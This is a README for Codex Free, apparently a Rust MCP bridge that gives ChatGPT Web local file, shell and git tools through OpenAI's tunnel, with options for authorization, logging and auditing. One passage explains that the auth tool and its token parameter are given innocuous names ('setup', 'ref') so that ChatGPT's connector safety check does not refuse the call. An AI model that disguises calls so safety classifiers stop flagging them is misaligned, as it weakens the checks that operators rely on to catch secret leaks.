

# Codex-free (rewritten to Rust)

*Codex Free, rewritten in Rust (but you still have to buy ChatGPT Plus)*

> 📖 **New here? Start with the [Wiki](https://github.com/hypnguyen1209/codex-free/wiki)** — an end-user guide covering [installation](https://github.com/hypnguyen1209/codex-free/wiki/Installation), [every CLI argument](https://github.com/hypnguyen1209/codex-free/wiki/CLI-Reference), [every config option](https://github.com/hypnguyen1209/codex-free/wiki/Configuration), and [how it all works end-to-end](https://github.com/hypnguyen1209/codex-free/wiki/How-It-Works). This README is the complete technical reference; the wiki is the friendlier path in.

A local MCP bridge server that lets ChatGPT Web Pro call tools on your machine: read/write files, run shell commands, git operations, search. Codex Free is a faithful Rust port of the original Bun + TypeScript `codex-free`, built on **tokio + axum** and the official [`rmcp`](https://crates.io/crates/rmcp) SDK over Streamable HTTP. It can expose that local MCP endpoint through OpenAI's native [Secure MCP Tunnel](https://developers.openai.com/api/docs/guides/secure-mcp-tunnels), without opening an inbound port or publishing a general-purpose URL.

In native-tunnel mode, Codex Free listens only on `127.0.0.1`, protects the MCP endpoint with a random per-process bearer token, starts OpenAI's official runtime-only tunnel client, and supervises it for the lifetime of the server. The tunnel client makes outbound HTTPS requests to OpenAI and forwards tunnel traffic to the authenticated loopback MCP endpoint. A conventional externally managed tunnel remains available as an alternative.

The tool set covers the ones [Codex](https://github.com/openai/codex) gives its own agent — `apply_patch`, `exec_command`/`write_stdin`, `view_image`, `update_plan`, `clock_curr_time`/`clock_sleep` — so ChatGPT Web can work the way Codex does: patch files in place instead of rewriting them, drive interactive and long-running processes, and keep a plan across a task. It also bridges ChatGPT-native attachments and generated files into the active local project, and returns project files to ChatGPT as downloadable MCP resources, without reconstructing binary data in model-visible text or pretending a machine-local path is usable by the host. It carries the project's `AGENTS.md` and Codex's own agent brief, so the client is told how to behave and not just what it can call. It bounds what a tool call can return, keeps a plan and notes on disk across conversations, and records project-scoped review checkpoints so ChatGPT can inspect either the full task diff or only changes since the last review. And it loads Codex's skills: a `SKILL.md` in the repo or your home directory teaches the client how *you* do a recurring task, and only the ones that apply are ever read. Schemas and prompt are ported from the Codex source, not reimplemented from guesswork.

Beyond the port, Codex Free can **aggregate other MCP servers**. It connects to local stdio servers or remote Streamable HTTP endpoints, keeps automatically imported Codex/plugin tool catalogues private by default, and gives the ChatGPT-side agent a fixed ranked discovery/schema/call surface. Explicit direct flattening and the older one-tool gateway remain available as compatibility modes.

## Architecture



Dotted edges are conditional: `list_projects` and `set_project_root` appear only in [multi-project mode](#multi-project-mode). The first discovers selectable candidates from Codex's project trust table plus optional local metadata; the second binds this conversation's project root, optionally provisioning a detached managed Git worktree (`worktrees.mode`) that becomes the active checkout so concurrent chats never share a working tree. Independently, the aggregator [auto-imports](#automatic-discovery-from-codex) compatible stdio and Streamable HTTP MCP servers directly from Codex's `config.toml`, then uses the Codex CLI when available to add plugin-provided servers before applying any `codex.config.json` overlays.

## Quick start

### Interactive setup (recommended for a first install)

Run the guided setup from an installed binary:

```bash
codex-free quickstart
```

Or run it directly from a source checkout:

```bash
cargo run --release -- quickstart
```

The wizard asks which project directory ChatGPT may access and whether that
directory is one project or a multi-project access root. It then walks through
creating an OpenAI Secure MCP Tunnel, entering the tunnel ID and runtime API key,
and creating the matching ChatGPT developer-mode connector. Advanced policies,
including optional per-conversation authorization, are configured manually rather
than presented during first-run onboarding. The relevant OpenAI and ChatGPT links
are printed together with the exact connection values to use.

The runtime key is entered without terminal echo and stored in a dedicated
per-tunnel file under `~/.codex-free/openai-tunnel/credentials/`. On Unix, the
wizard restricts the credential directory and file to the current user.
The wizard writes `~/.codex-free/codex.config.json` by default; that file receives
only a `file:` reference, and unrelated existing JSON settings are preserved. At
the end, the wizard can start Codex Free immediately so ChatGPT can scan the live
connector. Keep that process running while using the connector.

When an existing config already contains `conversationAuthToken`, quickstart
preserves it, restricts the config file to the current user on Unix, and prints the
one-line instruction required to authorize a chat. It does not offer to enable or
rotate this advanced feature. Keep a token-bearing config out of
version control and do not share it.

Set `CODEX_FREE_CONFIG=/path/to/codex.config.json` or use
`codex-free quickstart --config /path/to/codex.config.json` to update a different
config file. `--work-dir /path/to/project` changes the directory initially shown
by the wizard.

### Manual native OpenAI tunnel setup

1. Create or obtain a tunnel ID in [OpenAI Platform tunnel settings](https://platform.openai.com/settings/organization/tunnels).
2. Create a restricted [runtime API key](https://platform.openai.com/settings/organization/api-keys) whose principal has Tunnels **Read** + **Use** for that tunnel. Keep tunnel-management/admin credentials separate.
3. Add the tunnel to `~/.codex-free/codex.config.json`:

   ```json
   {
     "openaiTunnel": {
       "tunnelId": "tunnel_0123456789abcdef0123456789abcdef",
       "apiKeyRef": "env:CONTROL_PLANE_API_KEY"
     }
   }
   ```

4. Put the runtime key in the referenced environment variable and start Codex Free:

   ```bash
   export CONTROL_PLANE_API_KEY='...'
   cargo run --release -- --work-dir /path/to/your/project
   ```

On first use, Codex Free downloads the pinned runtime-only build of OpenAI's official [`tunnel-client`](https://github.com/openai/tunnel-client), verifies the archive against the per-platform SHA-256 embedded in this Codex Free build, and installs it under `~/.codex-free/openai-tunnel/`. Codex Free reports ready only after the runtime's `/readyz` check succeeds and its metrics show a successful control-plane poll. The runtime-only binary exposes loopback `/healthz`, `/readyz`, and `/metrics` endpoints; it intentionally does not include the full client's admin UI.

To use a preinstalled official client instead, set `openaiTunnel.clientPath` or pass `--openai-tunnel-client /path/to/tunnel-client-runtime`. Codex Free still checks the binary's version surface and required flags before starting it.

### Local endpoint or externally managed tunnel

```bash
cargo run --release -- --work-dir /path/to/your/project
```

Without `openaiTunnel`, the server keeps its legacy behavior: it listens on `0.0.0.0:3000`, serves MCP at `/mcp`, and serves `/health`. This is appropriate for local clients or an explicitly configured reverse proxy/tunnel. Do not publish this mode without authentication and network-level access controls.

To reuse one server across several independent projects, point it at their common parent and enable multi-project mode:

```bash
cargo run --release -- --work-dir /path/to/projects --multi-project
```

Here `--work-dir` is an **access root**, not the active project. In ChatGPT, call `set_project_root` directly when the exact relative/absolute path or GitHub repository, branch, pull-request, or commit URL is known. A GitHub URL reuses an unambiguous matching checkout already below the access root, or runs `git clone` in the configured project clone directory before binding. Branch, PR, and commit URLs select their exact targets without switching an unrelated source checkout. Otherwise `list_projects` can search the read-only project catalogue by name, alias, description, or relative selector first. Codex Free keys the resulting binding from ChatGPT's `_meta["openai/session"]` conversation identifier and persists it outside the repository, so later turns in the same chat recover the project after an MCP reconnect or codex-free restart. A new chat gets a new binding and an existing chat cannot switch projects. Clients that do not provide `openai/session` fall back to a one-time MCP transport-session binding and must select again after reconnecting.

### Optional per-conversation authorization

Set a high-entropy authentication token manually in the config. The token itself,
not a digest of another secret, must look like a SHA-256 value: exactly 64
lowercase hexadecimal characters. For example:

```bash
python -c 'import secrets; print(secrets.token_hex(32))'
```

```json
{
  "conversationAuthToken": "0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef"
}
```

When this key is present, Codex Free rejects every ordinary tool call until the
current chat presents that exact token once. A successful check authorizes only
the stable ChatGPT conversation that made the call. The project-aware
initialization brief is withheld until authorization succeeds; the gate response
then directs the client to load it with `get_agent_brief`.

The MCP wire surface deliberately calls this authorization tool `setup` and its
token parameter `ref`. ChatGPT can otherwise falsely classify a token-looking
connector call as an unsafe secret leak and refuse to make the call. Keeping the
actual token in a SHA-256-shaped format and using the innocuous `setup(ref)` names
avoids that false positive. This is only a compatibility workaround for ChatGPT's
connector safety behavior: `ref` is still the authentication token, it remains
secret, and no digest transformation is applied before it is submitted.

This extra gate is necessary because ChatGPT's connector OAuth state controls
whether the account can use the connector at all; it does not independently
authorize each conversation or ChatGPT Project. `conversationAuthToken` adds that
missing conversation-level boundary after the connector has already been made
available to the account.

For ChatGPT, the authorization grant is keyed by the hash of
`_meta["openai/session"]` and persisted under
`~/.codex-free/conversation-authorizations/`, so it survives MCP transport
replacement and Codex Free restarts. The marker contains neither the token nor the
raw conversation identifier. Its namespace is derived from the canonical work
directory and current token, so rotating `conversationAuthToken` invalidates
earlier grants. MCP clients without stable conversation metadata fall back to
authorization for the current transport only.

Use this one-line instruction, replacing `[REF]` with the exact configured token:

```text
To use this connector in a chat, call its `setup` tool once with ref `[REF]`.
```

Paste it into an individual chat, or add it to the ChatGPT Project's
[Project instructions](https://help.openai.com/en/articles/10169521-projects-in-chatgpt)
so chats created in that project can authorize themselves automatically. The
token is an application-level gate for model conversations, not a replacement for
tunnel, HTTP, workspace, or operating-system access controls. It is plaintext in
the config by design; anyone who can read that file can authorize another chat.

To build a standalone binary:

```bash
cargo build --release
./target/release/codex-free --work-dir /path/to/your/project
```

### Prebuilt binaries

Each release ships a compiled binary per platform — `windows-x64`, `linux-x64`, `linux-arm64`, `darwin-x64` and `darwin-arm64`. Download the archive for your OS/arch, unpack it, and run `codex-free --work-dir …`. These are native builds, so there is no AVX2/baseline caveat: the binary runs on any CPU of its architecture.

## CLI

### Commands

| Command | Description |
|---------|-------------|
| `quickstart` | Interactively configure the project scope, native OpenAI tunnel credentials, JSON config, and ChatGPT developer-mode connector; optionally start the server when setup is complete |

`quickstart` writes `~/.codex-free/codex.config.json` by default. It accepts
`--config <PATH>` (or `CODEX_FREE_CONFIG`) to select another file and
`--work-dir <DIR>` as the initial project-directory prompt value.

### Server flags

| Flag | Required | Default | Description |
|------|----------|---------|-------------|
| `--work-dir` | Yes | - | Project directory for server mode, or the project access root with `--multi-project` and `projects list` |
| `--multi-project` | No | Disabled | Let each ChatGPT conversation bind once to a project beneath `--work-dir`; other clients fall back to transport-session binding |
| `--project-clone-dir` | No | `--work-dir` | Existing directory beneath the multi-project access root where GitHub URLs are cloned; overrides `projectCloneDir` |
| `--worktree-mode` | No | `auto` | Multi-project worktree policy: `auto`, `always`, or `never` |
| `--worktree-root` | No | Codex worktree location | Directory for managed conversation worktrees |
| `--port` | No | `3000` | Server port |
| `--api-key` | No | - | Bearer token for auth |
| `--config` | No | `CODEX_FREE_CONFIG`, user config, then legacy `./codex.config.json` | Explicit config file path. The user config is `~/.codex-free/codex.config.json`; relative explicit paths resolve from the startup directory, and a missing file is tolerated |
| `--codex-cli` | No | Auto when available | Require successful Codex CLI-backed MCP discovery. When omitted, failure produces a warning and direct `config.toml` parsing remains the fallback |
| `-v`, `--verbose` | No | Info logs | Enable Codex Free debug diagnostics; repeat (`-vv`) for trace diagnostics (`--log-tool-calls` remains an alias) |
| `--log-tool-payloads[=<MODE>]` | No | `off` | Emit paired tool invocation lifecycle events with bounded, redacted payloads. `MODE` is `requests`, `responses`, or `all`; omitting it selects `all` |
| `--tool-log-level <LEVEL>` | No | `info` | Severity for tool invocation events: `trace`, `debug`, `info`, `warn`, or `error` |
| `--tool-log-max-request-bytes <BYTES>` | No | `2048` | Maximum UTF-8 bytes retained from each redacted request payload (`64`-`65536`) |
| `--tool-log-max-response-bytes <BYTES>` | No | `4096` | Maximum UTF-8 bytes retained from each redacted response payload (`64`-`65536`) |
| `--tool-log-redact-env <NAME>` | No | - | Redact the current value of an environment variable from tool payload logs; repeat for multiple names |
| `--audit <FILE>` | No | Disabled | Append privacy-preserving tool activity events to a JSONL file (`--audit-log` is an alias) |
| `--audit-command-preview` | No | Disabled | Add bounded, redacted previews for `exec_command` and `run_command` to the audit log |
| `--audit-redact-env <NAME>` | No | - | Redact the current value of an environment variable from command previews; repeat for multiple names |
| `--openai-tunnel-id` | No | - | Existing OpenAI Secure MCP Tunnel ID; enables native tunnel mode |
| `--openai-tunnel-api-key-ref` | No | `env:CONTROL_PLANE_API_KEY` | Runtime key reference in `env:NAME` or `file:/path` form |
| `--openai-tunnel-client` | No | managed pinned runtime | Explicit `tunnel-client` or `tunnel-client-runtime` binary |
| `--openai-tunnel-organization-id` | No | - | Optional OpenAI organization ID sent by the tunnel client |

The project catalogue also has a local diagnostic command. It does not start the HTTP server, tunnel, or bridged MCP children:

```bash
codex-free projects list --work-dir /path/to/projects
codex-free projects list --work-dir /path/to/projects --query "codex free"
codex-free projects list --work-dir /path/to/projects --json
codex-free projects list --work-dir /path/to/projects --show-skipped
```

`--show-skipped` is deliberately local-only: it prints the configured paths rejected as missing, untrusted, or outside the access root, plus duplicate entries that were merged. Normal CLI output and the MCP tool expose only aggregate warnings, so an agent does not learn absolute paths it cannot select.

## Tools

Structured primitives — cheaper and safer than shelling out for the same job, and identical on Windows and POSIX:

| Tool | Description |
|------|-------------|
| `read_file` | Read a file's contents, a bounded window at a time, with optional line offset/limit |
| `write_file` | Write content to a file, creating parent directories if needed |
| `import_host_file` | Stream one ChatGPT attachment or generated file into a new project-relative path, with bounded size, SHA-256 verification and atomic no-overwrite publication |
| `export_host_file` | Snapshot one project-relative file and return a short-lived, opaque MCP resource that ChatGPT can download without receiving a local path or base64 text |
| `run_command` | Execute a command in the work directory (allowlist-restricted) |
| `git_status` | Show git status, parsed into changed files with status codes |
| `show_changes` | Compare the scoped working tree with the project-open or last-review checkpoint, optionally advancing the incremental baseline; compatible hosts receive the bounded diff in an interactive component-only review card |
| `git_push` | Push commits to a remote |
| `git_commit` | Create a commit, optionally staging all tracked changes |
| `git_log` | Show recent commit history |
| `glob` | Find files matching a glob pattern (`.gitignore`-aware) |
| `grep` | Search file contents by regex, with optional context lines (`.gitignore`-aware) |
| `list_directory` | List files and directories with name, type, and size |
| `tree` | Print directory tree as ASCII art |

When `conversationAuthToken` is configured, one authorization gate tool is added
ahead of the protected tools:

| Tool | Description |
|------|-------------|
| `setup` | ChatGPT-facing name for the per-conversation authorization tool. Checks the configured authentication token supplied as `ref`, then caches only the grant for the stable ChatGPT conversation or current transport |

Ported from Codex's own agent tools:

| Tool | Codex name | Description |
|------|------------|-------------|
| `apply_patch` | `apply_patch` | Edit files with a context patch instead of rewriting them |
| `exec_command` | `exec_command` | Run a shell command; returns output, or a session id if it is still running |
| `write_stdin` | `write_stdin` | Write to (or poll) a running `exec_command` session |
| `view_image` | `view_image` | Load a local image file for visual inspection |
| `update_plan` | `update_plan` | Track a multi-step plan; saved to disk so a later conversation can pick it up |
| `clock_curr_time` | `clock.curr_time` | Current time in UTC |
| `clock_sleep` | `clock.sleep` | Pause for a given duration |
| `skills_list` | `skills.list` | List the `SKILL.md` skills installed for this project and this user |
| `skills_read` | `skills.read` | Read a skill's instructions, or another file in its package |

Codex's dotted names are flattened to underscores because MCP tool names must match `^[a-zA-Z0-9_-]{1,64}$`.

Five always-on tools have no Codex counterpart:

| Tool | Description |
|------|-------------|
| `get_agent_brief` | Return the whole operating brief — behaviour, environment, saved state and project rules — in one call |
| `get_environment` | Report the OS, the shell `exec_command` uses, the work directory, and what the policy allows |
| `get_project_doc` | Read the project's `AGENTS.md` instructions |
| `remember` | Save one durable note about the task under a short key |
| `recall` | Return the plan and notes saved by earlier turns or earlier conversations |

Multi-project mode adds two project-control tools:

| Tool | Description |
|------|-------------|
| `list_projects` | Search the read-only project catalogue before binding. Returns relative selectors for existing canonical directories authorized beneath the access root, plus names, aliases, descriptions, trust metadata, sources, and sanitized warnings. It never selects a project |
| `set_project_root` | Bind the current ChatGPT conversation to an existing directory beneath the configured access root, an HTTPS/SSH GitHub repository-root URL, an HTTPS branch URL (`/tree/<branch>`), an HTTPS pull-request URL (`/pull/<number>`), or an HTTPS commit URL (`/commit/<sha>`). URL selection reuses a matching checkout or clones into `projectCloneDir`; targeted URLs fetch and select the exact target without moving an unrelated source checkout. Repeating the same canonical directory or exact URL selection is idempotent, but switching is rejected. Without ChatGPT conversation metadata, the binding lasts for the MCP transport session |

Codex needs the first three for none of these reasons: it puts its agent brief in the system prompt, the OS and shell in an `<environment_context>` message, and `AGENTS.md` straight into the prompt, all before the first turn. An MCP server has none of those channels — it can only expose tools — so the same facts are tool calls here as well as part of the server's `instructions`. It needs `remember` and `recall` for the opposite reason: its context is large and its session state lives in the CLI process, whereas the client here is a chat window that loses the conversation. See [Context and memory](#context-and-memory), [Acting as a Codex agent](#acting-as-a-codex-agent), [Shells and the host](#shells-and-the-host), [AGENTS.md](#agentsmd) and [Skills](#skills).

That is 28 native tools in the default single-project mode and 30 in multi-project mode. Enabling conversation authorization adds the ChatGPT-facing `setup` tool, producing 29 or 31 respectively. Setting `artifactIngress.enabled` to `false` removes `import_host_file`; setting `artifactEgress.enabled` to `false` independently removes `export_host_file`. Each disabled direction reduces the applicable count by one. One or more [catalog-mode MCP upstreams](#catalog-mode-default-for-automatic-imports) add one shared four-tool discovery/call surface regardless of how many transitive tools they contain. Direct mode adds one downstream tool per selected upstream tool; gateway mode adds one downstream dispatcher per upstream server.

Two deliberate differences from Codex:

- **`apply_patch` takes a JSON string.** In Codex it is a *freeform* tool whose entire body is the raw patch. MCP has no freeform tools, so the patch goes in an `input` string parameter. The patch format itself is unchanged.
- **`exec_command` runs with plain pipes, not a PTY.** Codex's own `tty` parameter documents pipes as the default, so ordinary commands behave the same; `tty: true` is rejected rather than silently ignored. Programs that only enable interactive behaviour when attached to a terminal will act as if piped.

For ChatGPT calls carrying `_meta["openai/session"]`, an `exec_command` process
belongs to that hashed conversation identity rather than the current MCP
transport. `write_stdin` can therefore resume or poll it after ChatGPT replaces
the connector transport between adjacent tool calls. Generic MCP clients retain
transport-session ownership. Process handles are in memory only: they do not
survive a Codex Free restart, and `exec.idleTimeoutMs` still expires abandoned
sessions.

`clock_sleep` also caps at 5 minutes rather than Codex's 12 hours — a longer wait would outlive the HTTP request through the tunnel.

Every tool that advertises an `outputSchema` also returns `structuredContent` matching it, as the MCP spec asks. `exec_command` and `write_stdin` return Codex's unified-exec object, `import_host_file` returns its destination, byte count and SHA-256 receipt, `export_host_file` returns its immutable-snapshot receipt and a standard MCP `resource_link`, `clock_curr_time` returns `{ current_time }`, `get_environment` returns the environment object, `get_project_doc` returns `{ files, content }` and `skills_list` returns `{ skills, content }`; the rest return `{ content: <text> }`, which the server derives from the text blocks so handlers don't repeat it. `show_changes` deliberately advertises no output schema: its model-visible result is concise text, while its complete review payload is attached as component-only result `_meta` for the MCP App.

All project-scoped paths are resolved relative to the active project root: `--work-dir` in single-project mode, or the root selected for the current ChatGPT conversation in multi-project mode. Non-ChatGPT clients use the root selected for their current MCP transport session.

## Config file

Codex Free resolves one server-level JSON config in this order:

1. `--config <PATH>`;
2. the non-empty `CODEX_FREE_CONFIG` environment variable;
3. an existing `~/.codex-free/codex.config.json`;
4. an existing `./codex.config.json` as a legacy compatibility fallback;
5. built-in defaults.

Relative paths supplied through `--config` or `CODEX_FREE_CONFIG` resolve against
the process's startup directory. Explicit CLI and environment paths are
authoritative even when missing; a missing file is tolerated and built-in defaults
are used. The startup banner prints the selected path and its source. Selecting the
legacy working-directory file also prints a migration warning because process
authority should not normally depend on which repository happened to be the launch
directory. Move that file to `~/.codex-free/codex.config.json`, or make its location
explicit with `--config` or `CODEX_FREE_CONFIG`.

`quickstart` always chooses the user-level path when neither explicit source is
set; it does not update the legacy working-directory fallback. Every field is
optional and uses the same camelCase names as the original TypeScript project, so
an existing config keeps working.

```json
{
  "multiProject": false,
  "projectCloneDir": ".",
  "conversationAuthToken": null,
  "worktrees": {
    "mode": "auto",
    "root": "/path/to/worktrees",
    "upstreamRefreshMode": "never",
    "autoCleanupEnabled": true,
    "keepCount": 15,
    "allowSetupScript": false
  },
  "allowedCommands": ["bun", "npm", "npx", "node", "git", "python", "pip", "cargo", "make"],
  "port": 3000,
  "tree": {
    "defaultDepth": 3,
    "ignore": ["node_modules", ".git", "dist", ".next", "__pycache__", ".venv", "venv"]
  },
  "ignore": {
    "useGitignore": true,
    "useDefaultPatterns": true,
    "customPatterns": []
  },
  "command": {
    "defaultTimeout": 30000,
    "maxTimeout": 120000
  },
  "exec": {
    "mode": "allowlist",
    "extraAllowedCommands": [
      "ls", "cat", "grep", "find", "head", "tail", "wc", "echo", "pwd",
      "which", "rg", "sed", "awk", "sort", "uniq", "diff", "true", "false"
    ],
    "maxSessions": 8,
    "idleTimeoutMs": 300000
  },
  "projectDoc": {
    "maxBytes": 32768,
    "fallbackFilenames": [],
    "rootMarkers": [".git"]
  },
  "output": {
    "maxToolOutputTokens": 10000,
    "maxFileLines": 1000,
    "maxFileBytes": 131072,
    "maxEntries": 500,
    "maxTreeNodes": 1000
  },
  "review": {
    "maxPatchBytes": 4194304
  },
  "toolLogging": {
    "mode": "off",
    "level": "info",
    "maxRequestBytes": 2048,
    "maxResponseBytes": 4096,
    "redactEnv": []
  },
  "audit": {
    "logFile": null,
    "includeCommandPreview": false,
    "commandPreviewMaxBytes": 512,
    "redactEnv": []
  },
  "artifactIngress": {
    "enabled": true,
    "maxFileBytes": 104857600,
    "requestTimeoutMs": 120000,
    "idleTimeoutMs": 30000,
    "maxRedirects": 3,
    "maxConcurrentDownloads": 2,
    "allowedHosts": ["*"]
  },
  "artifactEgress": {
    "enabled": true,
    "maxFileBytes": 104857600,
    "maxCachedBytes": 268435456,
    "maxReferences": 64,
    "referenceTtlMs": 300000
  },
  "memory": {
    "enabled": true,
    "maxBytes": 16384
  },
  "skills": {
    "enabled": true,
    "includePlugins": true
  },
  "codexMcp": {
    "enabled": true,
    "useCli": true
  },
  "projectCatalog": {
    "codexConfig": {
      "enabled": true,
      "trustedOnly": true
    },
    "entries": []
  },
  "openaiTunnel": {
    "tunnelId": "tunnel_0123456789abcdef0123456789abcdef",
    "apiKeyRef": "env:CONTROL_PLANE_API_KEY"
  },
  "allowedHosts": [],
  "mcpServers": {}
}
```

CLI flags override values from the config file.

`conversationAuthToken` has no CLI override. A non-null value must contain exactly
64 lowercase hexadecimal characters. Generate it with a cryptographically secure
random source. `quickstart` does not enable or rotate the
feature; if the selected config already contains a valid value, it preserves the
value and prints the copyable ChatGPT instruction shown above. Because the value
is intentionally stored in this file, keep the config outside the repository; the
default `~/.codex-free/codex.config.json` location does so. When using a custom
repository-local path, add it to the repository's ignore rules. On Unix,
quickstart changes the config mode to `0600` when it preserves a token-bearing
config; manually created configs should be protected equivalently.

## Diagnostics, tool payloads, and audit logging

The default tracing level remains `info`. Every completed call names the downstream tool and, for a direct, gateway, or catalog-discovered MCP call, the resolved raw upstream server and tool. `-v` changes the default filter to `codex_free=debug,rmcp=warn`, which adds tool-start events, hashed conversation/project context, argument field names, duration, and output accounting without dumping payloads. `-vv` changes Codex Free to `trace` while keeping `rmcp` suppressed and adds the fully redacted argument-shape summary. An explicit `RUST_LOG` value takes precedence over the `-v`/`-vv` default filter, but rmcp protocol-internal events remain blocked because they may contain unbounded model or user content:

```bash
codex-free -v --work-dir /path/to/project
RUST_LOG=codex_free=trace,rmcp=warn codex-free --work-dir /path/to/project
```

Actual tool requests and responses are a separate opt-in. It applies uniformly to native tools and all MCP exposure modes, rather than special-casing shell execution:

```bash
# Log both sides with the default 2 KiB request / 4 KiB response limits.
codex-free --work-dir /path/to/project --log-tool-payloads

# Log requests only with a larger preview and an additional local secret value.
codex-free \
  --work-dir /path/to/project \
  --log-tool-payloads=requests \
  --tool-log-max-request-bytes 8192 \
  --tool-log-redact-env PRIVATE_REPOSITORY_TOKEN

# Put the same paired events at debug severity.
codex-free --work-dir /path/to/project --log-tool-payloads --tool-log-level debug
```

Every enabled mode emits exactly one start and one completion event with the same server-wide monotonic `call_id`; when audit JSONL is also enabled, it receives that same ID even under concurrent dispatch. The request and response toggles control payload inclusion independently without removing the lifecycle record. Completion includes `status` and `duration_ms`. Payload fields contain compact JSON previews, an observed serialized byte count, whether that count is exact, and explicit truncation and serializer-failure flags. When exact size is available, the event also reports the omitted byte count. Serialization stops as soon as the configured prefix budget is full, then appends `...[truncated]...` at a UTF-8 boundary. It does not clone, traverse, or serialize the unseen remainder merely to measure it.

Short representative events look like this (timestamps and unrelated tracing fields omitted):

```text
INFO codex_free::tool_payload: tool invocation started call_id=12 phase="start" tool="read_file" resolved_tool="read_file" status="started" request="{\"path\":\"src/lib.rs\"}"
INFO codex_free::tool_payload: tool invocation completed call_id=12 phase="finish" tool="read_file" resolved_tool="read_file" status="ok" duration_ms=2 response="{\"content\":[{\"type\":\"text\",\"text\":\"...\"}],\"isError\":false}"
INFO codex_free::tool_payload: tool invocation started call_id=13 phase="start" tool="mcp_call_tool" resolved_tool="mcp:IDA MCP/decompile_function" mcp_server="IDA MCP" mcp_tool="decompile_function" status="started" request="{\"source\":\"ida_mcp\",\"tool\":\"decompile_function\",\"arguments\":{\"address\":\"0x81000000\"}}"
```

MCP arguments and structured results are `serde_json::Value`, so null, arrays, maps, and scalar JSON values retain their compact structure; undefined values, circular references, and other non-JSON runtime objects cannot cross this Rust boundary. An unexpected serialization failure produces a bounded `[unserializable payload]` marker and cannot change the tool result. MCP image content blocks are represented only by MIME type and base64 byte count; their base64 data is never written to these logs. Resource links retain redacted descriptive metadata but replace the URI with an omission marker and its byte count, so opaque download capabilities are not persisted.

MCP dispatchers also emit `resolved_tool`, `mcp_server`, and `mcp_tool`. These contain the raw configured server name and raw upstream tool name even when the downstream capability is a generic gateway or `mcp_call_tool`; model-visible catalog IDs remain available in the request preview. The ordinary info-level completion event carries the same resolved identity even when payload logging is disabled.

Payloads are redacted lazily before their bytes reach the bounded serializer. Codex Free removes configured API/conversation credentials, credential-labelled and nontrivial MCP environment/HTTP-header values, resolved MCP bearer/header environment variables, the OpenAI tunnel key when readable, common secret-bearing process environment variables, values named through `toolLogging.redactEnv` / `--tool-log-redact-env`, input fields marked `writeOnly` or `format: "password"` by the tool schema, secret/checksum-labelled JSON fields, signed native-file `download_url` and `file_id` values, signed-URL query parameters, and common command-line/header credential syntax. This is defense in depth, not proof that arbitrary source text or tool output contains no unknown sensitive literal. JSON has no raw byte-buffer type, so image blocks and resource capabilities receive explicit safe representations; an application-specific base64 string in an otherwise ordinary text field is inside the operator trust boundary. Tool payload logging is therefore disabled by default and should be treated as sensitive operational data.

The `toolLogging` config block provides the same controls:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"off"` | `off`, `requests`, `responses`, or `all` |
| `level` | `"info"` | Event severity: `trace`, `debug`, `info`, `warn`, or `error` |
| `maxRequestBytes` | `2048` | Maximum UTF-8 bytes retained from each redacted request; accepted range is `64`-`65536` |
| `maxResponseBytes` | `4096` | Maximum UTF-8 bytes retained from each redacted response; accepted range is `64`-`65536` |
| `redactEnv` | `[]` | Environment-variable names whose current values must be removed from payloads |

CLI mode, level, and byte-limit options replace their corresponding config values. Repeated `--tool-log-redact-env` values are merged with `toolLogging.redactEnv` so a CLI invocation cannot accidentally remove configured redactions. Payload events use the `codex_free::tool_payload` tracing target at the selected level, so an explicit restrictive `RUST_LOG` filter can suppress them without incurring payload serialization work; when that happens, the ordinary info-level completion event remains available instead of silently removing all call visibility. Events go through the established tracing subscriber (stdout in the current HTTP server); they are never written to a bridged upstream's protocol pipe or to the downstream Streamable HTTP response. The pre-existing `--log-tool-calls` alias deliberately remains equivalent to `-v`; it does not opt an existing deployment into retaining payloads.

Audit logging is separate from diagnostic tracing and is disabled unless a file is configured:

```bash
codex-free \
  --work-dir /path/to/project \
  --audit ~/.codex-free/audit/tools.jsonl
```

The append-only JSONL stream begins with `audit_started`, which identifies the server version, OS process, random run ID, and command-preview policy, then emits schema-version-2 `tool_start` and `tool_finish` records. Tool records carry an RFC 3339 timestamp, monotonic call ID, transport-session ID, hashed ChatGPT conversation and project identifiers, downstream and resolved tool identities (including raw MCP server/tool names), duration, status, argument shape, returned byte/token counts, truncation status when the tool can report it, and resident `exec_command` session/PID metadata. Argument summaries include only fields declared by the tool's input schema; unknown keys and dynamic maps are counted but their key names are omitted. Raw conversation identifiers, project paths, scalar argument values, image data, structured output, and returned text are not written.

Command previews are a separate opt-in because shell commands can contain credentials, source code, paths, and environment values:

```bash
codex-free \
  --work-dir /path/to/project \
  --audit ~/.codex-free/audit/tools.jsonl \
  --audit-command-preview \
  --audit-redact-env GITHUB_TOKEN
```

